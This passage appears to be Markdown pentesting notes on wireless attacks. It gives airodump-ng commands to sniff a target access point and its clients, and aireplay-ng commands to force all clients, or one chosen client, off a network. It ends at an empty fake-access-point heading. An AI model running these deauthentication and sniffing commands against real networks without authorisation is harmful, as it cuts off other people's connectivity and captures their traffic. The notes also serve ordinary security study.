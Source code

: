 

### Sniff a target

```bash
airodump-ng --channel [CHANNEL] --bssid [MAC] --write [FILENAME] [INTERFACE MONITOR MODE]
```

The output will be similar to `airodump-ng [INTERFACE]` but only target info will be shown.

In addition, a section is printed with the full list of Access point's clients:

`BSSID`: MAC Access Point, `STATION`: MAC Client, `PWR`: Signal Power, `Rate`: Device Max Speed the device is running on, `Lost`: packages we lost, `Frames`: useful packages collected, `Probe`: - 



**Output:**

* -01.cap
* -01.csv
* -01.kismet.csv
* -01.kismet.netxml



### Analyze output

Open `.cap` file with wireshark





## Deauthentication Attack (Disconnecting Any Device From The Network)

Disconnect any device from any network within our range


* Disconnect all clients

    ```bash
    aireplay-ng --deauth [number of packets] -a [MAC AP] [INTERFACE]
    ```



* Disconnect a specific client

    ```bash
    # spoof device for seeing which devices are connected to the network
    airodump-ng --channel [CHANNEL] --bssid [MAC AP] [MONITOR INTERFACE: e.g. mon0]
    
    aireplay-ng --deauth [number of packets] -a [MAC AP] -c [MAC TARGET] [INTERFACE]
    ```



## Create a fake access point
